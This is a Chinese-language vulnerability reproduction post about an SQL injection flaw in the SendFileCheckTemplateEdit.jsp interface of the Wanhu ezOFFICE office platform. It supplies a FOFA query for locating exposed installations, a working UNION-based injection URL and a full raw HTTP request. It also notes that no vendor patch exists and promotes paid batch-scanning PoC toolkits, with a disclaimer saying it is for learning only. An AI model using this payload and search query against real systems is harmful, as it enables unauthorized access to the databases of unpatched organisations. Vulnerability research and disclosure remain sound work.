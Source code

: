 #  ​万户协同办公平台ezoffice SendFileCheckTemplateEdit.jsp接口存在SQL注入漏洞 附POC   
原创 南风徐来  南风漏洞复现文库   2023-11-28 23:16  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. 万户协同办公平台ezoffice接口简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
万户ezOFFICE集团版协同平台以工作流程、知识管理、沟通交流和辅助办公四大核心应用  
## 2.漏洞描述  
  
万户ezOFFICE协同管理平台是一个综合信息基础应用平台。 万户协同办公平台ezoffice SendFileCheckTemplateEdit.jsp接口存在SQL注入漏洞。  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcY00lXPXCDGrNbV8lDraWmudv8tUticEwnZYMkd4YsgBlcLxr6Kiawg0fg/640?wx_fmt=jpeg&from=appmsg "null")  
  
万户协同办公平台ezoffice SendFileCheckTemplateEdit.jsp接口存在SQL注入漏洞  
## 4.fofa查询语句  
  
"Ezoffice"  
## 5.漏洞复现  
  
漏洞链接：http://127.0.0.1/defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27102103122%27))%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL--  
  
漏洞数据包：  
```
GET /defaultroot/public/iWebOfficeSign/Template/SendFileCheckTemplateEdit.jsp?RecordID=1'%20UNION%20ALL%20SELECT%20sys.fn_sqlvarbasetostr(HashBytes(%27MD5%27,%27102103122%27))%2CNULL%2CNULL%2CNULL%2CNULL%2CNULL-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Accept: */*
Connection: close
Accept-Language: en
Accept-Encoding: gzip
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYpicdWZHwKicptrTJr27k1P69z0g0GL97rhyCiaF2yEA4g2FHe0nUMRN1Q/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
**本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYaeNnv3icSdyD1UUMhuj2AqatBBZlvFPoYzwvc3L72E6rWZd6UNicAOBw/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcYaHR2Tb3vrrXyeE57dXlHUibSUByxib1YBNpibmiatwQWwSuXEfVQaBcBiag/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3aBM5r7Ta7QRENxnCS0zzcY9ibdibKPUcznFe7s5YrTE6CwNR4FeohSDBYKADFDBS8eHz1eazibOjmlQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
厂商尚未提供漏洞修补方案，请关注厂商主页及时更新： http://www.whir.net  
## 8.往期回顾  
  
[亿赛通电子文档安全管理系统UploadFileFromClientServiceForClient接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484633&idx=1&sn=564b1d5a595d7361fd8bdc358266e647&chksm=974b89dea03c00c83d2194779fdf96bd3a770825c66316a4ddfdbf1a16869543cd3ccef6fb1f&scene=21#wechat_redirect)  
  
  
[鸿运主动安全监控云平台存在任意文件读取漏洞 附POC](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247484618&idx=1&sn=d6afb834049f84a076ae1e3ce9acbfeb&chksm=974b89cda03c00db68ac96ec70e3b01776af8c3e93a4291da32bcfe22393e8b993a9abe87007&scene=21#wechat_redirect)  
  
  
  
  
